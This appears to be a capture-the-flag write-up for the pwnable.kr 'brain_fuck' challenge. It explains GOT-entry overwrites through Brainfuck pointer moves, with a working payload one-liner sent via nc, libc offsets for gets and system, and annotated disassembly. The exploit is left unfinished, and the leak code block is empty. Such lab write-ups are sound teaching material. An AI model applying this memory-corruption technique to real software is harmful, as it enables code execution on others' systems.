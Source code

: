 ### brain_fuck
It is a programming language https://en.wikipedia.org/wiki/Brainfuck.
There are 2 files to download: `bf` and `bf_libc.so`
When running `bf_libc.so` I get:
```
GNU C Library (Ubuntu GLIBC 2.23-0ubuntu3) stable release version 2.23, by Roland McGrath et al.
Copyright (C) 2016 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 5.3.1 20160413.
Available extensions:
	crypt add-on version 2.1 by Michael Glad and others
	GNU Libidn by Simon Josefsson
	Native POSIX Threads Library by Ulrich Drepper et al
	BIND-8.2.3-T5B
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```
So I downloaded [libc6-i386_2.23-0ubuntu3_amd64.deb](http://archive.ubuntu.com/ubuntu/pool/main/g/glibc/libc6-i386_2.23-0ubuntu3_amd64.deb) and then:
```
$dpkg -x libc6-i386_2.23-0ubuntu3_amd64.deb /tmp/out
$ md5sum /tmp/out/lib32/libc-2.23.so 
6141f30bb3599533e27d352e0672343d  /tmp/out/lib32/libc-2.23.so
$ md5sum bf_libc.so 
6141f30bb3599533e27d352e0672343d  bf_libc.so
```
So, there is nothing special added to `bf_libc.so` it is just `libc.so` version 2.23 for i386.

-------------------------------
We have a constant address p = 0x804a080 which is initiated with the value 
0x0804a0a0. The idea is to overwrite the values in the got.plt.
Example: Let change the address in the `got.plt` that points to `getchar` to point to `main`.
 
`0x0804a00c` is the `got.plt` address of the `getchar`, it is initialized to `0x08048446`. So
it is a 4 byte address located in the area `0x0804a00c-0x0804a00f`

`0x08048671` is the address of main


1) our pointer `p` should change to point to  `0x0804a00f` so decrements 145 from the current value:  to reach `0x0804a00f` from `0x0804a0a0`. This is done by `145*'<'`

2) We need to change the value from `0x08048446` to `0x08048671`, the first 2 bytes are already 0804 so no need to change them, so add two more `<<`
//then we should change 84 to 86 so add `++`
//decremnt th pointer to the next byte to change: `'<'`
//then we change 0x46 to 0x71:  0x71-0x46 = 0x2b = 43 so add  `43* '+'`
//then call getchar: by adding `','`
```
dafna@vdoo:~/kamomil/pwnable/brain_fuck$ python3 -c "print(145*'<'+'<<++<'+43*'+'+',')" | nc pwnable.kr 9001
welcome to brainfuck testing system!!
type some brainfuck instructions except [ ]
welcome to brainfuck testing system!!
type some brainfuck instructions except [ ]
```
So this is how it works, you see the strings are printed twice since `main` was called twice.

our set of plt functions are:

```
objdump -d bf | grep -oE "\w+@plt" | sort | uniq
fgets@plt
getchar@plt
__gmon_start__@plt
__libc_start_main@plt
memset@plt
putchar@plt
puts@plt
setvbuf@plt
__stack_chk_fail@plt
strlen@plt
```
during main we have the following sequence of calls:
```
call   0x8048470 <puts@plt>
call   0x8048470 <puts@plt>
call   0x80484c0 <memset@plt>
call   0x8048450 <fgets@plt>
while(string len)
call   0x80485dc <do_brainfuck>
call   0x8048490 <strlen@plt>
endwhile
```

#### `putchar` to `_start`:
_start address is 0x080484e0
`0x804a030` is the `got.plt` address of the `putchar`, initialized to `0x080484d6`

####  `memset` to  `gets`
`0x804a02c` is the `got.plt` address of `memset`
Since `gets` is not in our plt functions we have to find the way to find it.
the ASLR mechanism randomize the starting offset of the libc (call it `s`) therefore 
in order to find the offset in libc we will choose a function `X` in libc.
We will find the offset `xoff` of `X` from that starting point `a` then we will use brainfuck to leak it's absolute address `xabs`. Then we have `xabs = a + xoff --> a = xabs - xoff` .
Then after we have `a` we can find the absolute address of any libc function `Y` by `yabs = a + yoff`.
 
 ```
# 

 ```
 
 
gets address: 386928

#### `fgets` to `system`.

system address 239904

//set the value in the address
//(*p)++ //' case '>':

   0x080485fe <+34>:	mov    eax,ds:0x804a080
   0x08048603 <+39>:	add    eax,0x1
   0x08048606 <+42>:	mov    ds:0x804a080,eax
   0x0804860b <+47>:	jmp    0x804866b <do_brainfuck+143>
   
  //(*p)-- //case '<':
   0x0804860d <+49>:	mov    eax,ds:0x804a080
   0x08048612 <+54>:	sub    eax,0x1
   0x08048615 <+57>:	mov    ds:0x804a080,eax
   0x0804861a <+62>:	jmp    0x804866b <do_brainfuck+143>
   
   //set the value pointed by the value in the address
   //(**p)++ //case '+':
   0x0804861c <+64>:	mov    eax,ds:0x804a080
   0x08048621 <+69>:	movzx  edx,BYTE PTR [eax]
   0x08048624 <+72>:	add    edx,0x1
   0x08048627 <+75>:	mov    BYTE PTR [eax],dl
   0x08048629 <+77>:	jmp    0x804866b <do_brainfuck+143>
   
   //(**p)-- //case '-':
   0x0804862b <+79>:	mov    eax,ds:0x804a080
   0x08048630 <+84>:	movzx  edx,BYTE PTR [eax]
   0x08048633 <+87>:	sub    edx,0x1
   0x08048636 <+90>:	mov    BYTE PTR [eax],dl
   0x08048638 <+92>:	jmp    0x804866b <do_brainfuck+143>
   
   //show the last byte in (**p) //case '.':
   0x0804863a <+94>:	mov    eax,ds:0x804a080
   0x0804863f <+99>:	movzx  eax,BYTE PTR [eax]
   0x08048642 <+102>:	movsx  eax,al
   0x08048645 <+105>:	mov    DWORD PTR [esp],eax
   0x08048648 <+108>:	call   0x80484d0 <putchar@plt>
   0x0804864d <+113>:	jmp    0x804866b <do_brainfuck+143>
   
   //set the last byte in (**p) from user input //case ',':
   0x0804864f <+115>:	mov    ebx,DWORD PTR ds:0x804a080
   0x08048655 <+121>:	call   0x8048440 <getchar@plt>
   0x0804865a <+126>:	mov    BYTE PTR [ebx],al
   0x0804865c <+128>:	jmp    0x804866b <do_brainfuck+143>
   
   //print that '[' is not allowed // case '[':
   0x0804865e <+130>:	mov    DWORD PTR [esp],0x8048830
   0x08048665 <+137>:	call   0x8048470 <puts@plt>


